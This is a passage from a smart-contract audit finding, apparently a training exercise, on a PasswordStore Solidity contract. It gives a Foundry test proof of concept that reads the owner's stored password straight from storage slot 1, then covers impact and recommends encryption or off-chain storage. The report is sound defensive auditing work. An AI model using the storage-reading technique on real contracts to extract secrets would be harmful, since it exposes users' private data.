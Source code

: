 Therefore my current POC proves the exploit by using `console.log` instead of `assertEq`
)   
  
Write and run the following test case in the `PasswordStore.t.sol` test file.

```solidity
function test_any_non_owner_can_see_password() public {
    string memory victimPassword = "mySecretPassword"; // Defines Victim's (Owner's) password
    vm.startPrank(owner); // Simulates Victim's address for the next call
    passwordStore.setPassword(victimPassword); // Victim sets their password

    // At this point, Victim thinks their password is now "privately" stored on the protocol and is completely secret.
    // The exploit code that now follows can be performed by just about everyone on the blockchain who are aware of the Victim's protocol and can access and read the Victim's password.

    /////////// EXPLOIT CODE performed by Attacker ///////////

    // By observing the protocol's source code at `PasswordStore.sol`, we notice that `s_password` is the second storage variable declared in the contract. Since storage slots are alloted in the order of declaration in the EVM, its slot value will be '1'
    uint256 S_PASSWORD_STORAGE_SLOT_VALUE = 1;

    // Access the protocol's storage data at slot 1
    bytes32 slotData = vm.load(
        address(passwordStore),
        bytes32(S_PASSWORD_STORAGE_SLOT_VALUE)
    );

    // Converting `bytes` data to `string`
    string memory anyoneCanReadPassword = string(
        abi.encodePacked(slotData)
    );
    // Exposes Victim's password on console
    console.log(anyoneCanReadPassword);
}

```

Make sure to run the test command with `-vv` flag to see the `Logs` in command output.    


## Impact
This vulnerability completely compromises the confidentiality of the protocol and exposes the sensitive private data of the owner of the protocol to everyone on the blockchain.

## Tools Used
Foundry

## Recommendations

All data on the blockchain is public. To store sensitive information, additional encryption or off-chain solutions should be considered. Sensitive and personal data should never be stored on the blockchain in plaintext or weakly encrypted or encoded format. 
